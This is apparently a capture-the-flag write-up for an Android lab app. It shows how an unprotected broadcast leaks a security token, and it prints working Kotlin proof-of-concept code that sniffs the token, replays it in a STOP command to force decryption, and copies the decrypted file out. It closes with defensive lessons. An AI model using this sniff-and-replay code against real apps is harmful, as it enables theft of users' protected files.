





*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## 1. Challenge Overview

We are given a victim application (`com.eightksec.andropseudoprotect`) that encrypts`/sdcard/Download/` when  “encryption” mode is enabled.

It requires a **security token** to toggle encryption/decryption, which it sends via broadcasts or services with two actions:

- `com.eightksec.andropseudoprotect.START_SECURITY`
- `com.eightksec.andropseudoprotect.STOP_SECURITY`

The challenge:

> Build a PoC app that can extract the token during normal app usage, use it to send a STOP command to the victim app, wait for it to decrypt the file, and then exfiltrate the decrypted file — all without requiring extra runtime permissions beyond storage/notification.
>

---

## 2. Vulnerability Analysis

Using JADX, we can see that we got a service provider and a broadcast receiver, both are exported.



First thing to check in the service provider is `onStartCommand()` method.



and the `onReceiver()` method for the broadcast receivers  



so where is the vulnerability? check the main activity ;”D



This allows *any* application on the device to register a receiver for `SecurityService.ACTION_START_SECURITY` and capture the `EXTRA_SECURITY_TOKEN` value without user consent or elevated privileges.

### IPC Broadcast Token Leakage

The victim app’s broadcasts:

- Are **not protected** by permissions.
- Contain the `security_token` extra directly.
- Can be sniffed by **any** app with a registered receiver (I used dynamic).

This means a malicious app can:

1. Listen for these broadcasts.
2. Capture the security token.
3. Reuse it to send the same service commands to decrypt and access the files.

---

## 3. Exploitation Strategy

We used **dynamic broadcast receiver registration** to stealthily hook into the victim’s IPC.

**Flow:**

1. **Start Sniffer**: On launch, our PoC automatically registers a broadcast receiver for START/STOP actions.
2. **Capture Token**: Once the victim app broadcasts a `START_SECURITY` action, we store the token.
3. **Silent STOP Command**: After waiting ~5 seconds (for victim encryption to complete), we send a `STOP_SECURITY` broadcast with the captured token.
4. **Exfiltration**: Wait for decryption to finish, then move `THIS_IS_A_POC.TXT` from `/sdcard/Download/` to `/sdcard/POC_RETRIEVED/` to prove that we can now access the file.

---

## 4. Implementation Details

### 4.1 Storage Permission Handling

We support Android R+ **MANAGE_EXTERNAL_STORAGE** and legacy READ/WRITE for older versions.

The app automatically prompts if permissions are missing.

---

### 4.2 Dynamic Token Sniffer

```kotlin
private fun startDynamicSniffer() {
    if (sniffReceiver != null) return
    sniffReceiver = object : BroadcastReceiver() {
        override fun onReceive(context: Context?, intent: Intent?) {
            val token = intent?.getStringExtra("security_token") ?: return
            capturedToken = token
            Log.i("POC", "🎯 TOKEN CAPTURED: $token")
            Handler(mainLooper).postDelayed({ automateAttack() }, 5000)
        }
    }
    val filter = IntentFilter().apply {
        addAction("com.eightksec.andropseudoprotect.START_SECURITY")
        addAction("com.eightksec.andropseudoprotect.STOP_SECURITY")
    }
    registerReceiver(sniffReceiver, filter)
}
```

### 4.3 Automated Attack Sequence

```kotlin
private fun automateAttack() {
    stopSecurity()
    Handler(mainLooper).postDelayed({ movePOCFile() }, 5000)
}
```

**STOP Command:**

```kotlin
private fun stopSecurity() {
    val stopIntent = Intent().apply {
        action = "com.eightksec.andropseudoprotect.STOP_SECURITY"
        setPackage("com.eightksec.andropseudoprotect")
        putExtra("security_token", capturedToken)
    }
    sendBroadcast(stopIntent)
}
```

### 4.4 File Retrieval

We search `/sdcard/Download/THIS_IS_A_POC.TXT` and copy it to `/sdcard/POC_RETRIEVED/` after decryption.

```kotlin
private fun movePOCFile() {
    val downloads = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS)
    val pocFile = File(downloads, "THIS_IS_A_POC.TXT")
    val destDir = File(Environment.getExternalStorageDirectory(), "POC_RETRIEVED").apply { mkdirs() }
    FileInputStream(pocFile).use { input ->
        FileOutputStream(File(destDir, pocFile.name)).use { output ->
            input.copyTo(output)
        }
    }
}
```

## 5. Attack Demonstration (ADB Logs)



## 6. Lessons Learned

- **IPC broadcasts without permission protection are dangerous** — especially when they contain sensitive tokens.
- **Dynamic registration** allows stealth attacks without static manifest clues.
- Always validate the sender and require permissions or signatures when exposing security-critical IPC.

## 7. POC

you can get the `POC` on my github.
